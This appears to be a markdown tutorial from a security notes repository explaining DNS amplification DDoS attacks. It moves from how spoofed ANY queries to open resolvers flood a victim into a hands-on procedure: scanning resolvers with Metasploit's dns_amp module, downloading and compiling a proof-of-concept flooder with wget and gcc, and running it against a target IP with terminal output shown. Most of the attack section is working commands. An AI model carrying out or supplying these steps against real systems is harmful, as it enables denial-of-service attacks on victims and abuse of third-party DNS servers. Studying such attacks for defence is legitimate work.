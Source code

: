 # What is DNS Traffic Amplification?
A DNS (Traffic) Amplificaton attack is a popular form of a distributed denial of service (DDoS) attack, which abuses open DNS resolvers to flood a target system with DNS response traffic. It's called an *amplification* attack because it uses DNS responses to upscale the size of the data sent to the victim.

# How does it work?
An attacker sends a DNS name lookup to an open resolver with the source IP spoofed to be the victim's IP address. That way, any response traffic would be sent to the victim and not the attacker. The requests submitted by the attacker usually aim to query for as much information as possible in order to maximise the amplification effect. In most cases, the queries sent are of type `ANY` which requests all known information about a particular DNS zone. Using a botnet, it's easy to create immense amounts of traffic. It is also rather difficult to protect against these attacks because the traffic is coming from legitimate sources - real DNS servers.

# Conducting a DNS Traffic Amplification Attack
### Testing a DNS server for attack surface
We should first check if a DNS Traffic Amplification is possible and if it's viable. We can do this through [Metasploit]() using the module `auxiliary/scanner/dns/dns_amp`.

![](Resources/Images/msf6-dns-amp.png)

In the `RHOSTS` you need to put the IP of the name server you want to test. *This module will tell you if a name server can be used in an amplification attack but won't actually execute the attack.*

Run the scanner:

![](Resources/Images/msf6-dns-amp-sc-run.png)

### Executing the attack
A simple tool is available only as a proof of concept [here](https://github.com/rodarima/lsi/blob/master/entrega/p2/dnsdrdos.c). You will need to download and then compile it:
```bash
wget https://raw.githubusercontent.com/rodarima/lsi/master/entrega/p2/dnsdrdos.c
```
```bash
gcc -o dnsdrdos dnsdrdos.c -Wall -ansi
```
```bash
┌──(backslash0@kali)-[~/MHN/DNS]-[]
└─$ wget https://raw.githubusercontent.com/rodarima/lsi/master/entrega/p2/dnsdrdos.c
--2021-09-21 13:01:11--  https://raw.githubusercontent.com/rodarima/lsi/master/entrega/p2/dnsdrdos.c
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.109.133, 185.199.111.133, 185.199.110.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.109.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 15109 (15K) [text/plain]
Saving to: ‘dnsdrdos.c’

dnsdrdos.c                                                  100%[========================================================================================================================================>]  14.75K  --.-KB/s    in 0.001s  

2021-09-21 13:01:11 (17.9 MB/s) - ‘dnsdrdos.c’ saved [15109/15109]

┌──(backslash0@kali)-[~/MHN/DNS]-[]
└─$ gcc -o dnsdrdos dnsdrdos.c -Wall -ansi
```

Now, create a file containing the IP's of each DNS server you want to use in the attack (only one IP per line). Use the following syntax to run the attack:
```bash
sudo ./dnsdrdos -f <dns servers file> -s <target IP> -d <domain> -l <number of loops through the list>
```
```bash
┌──(backslash0@kali)-[~/MHN/DNS]-[]
└─$ sudo ./dnsdrdos -f dns_servers -s 192.168.129.2 -d nsa.gov -l 30
-----------------------------------------------    
dnsdrdos - by noptrix - http://www.noptrix.net/    
-----------------------------------------------

┌──(backslash0@kali)-[~/MHN/DNS]-[]
└─$
```

The output may be empty, but the packets were sent. You can verify this with wireshark:

![](Resources/Images/dnsdrdos-wireshark.png)
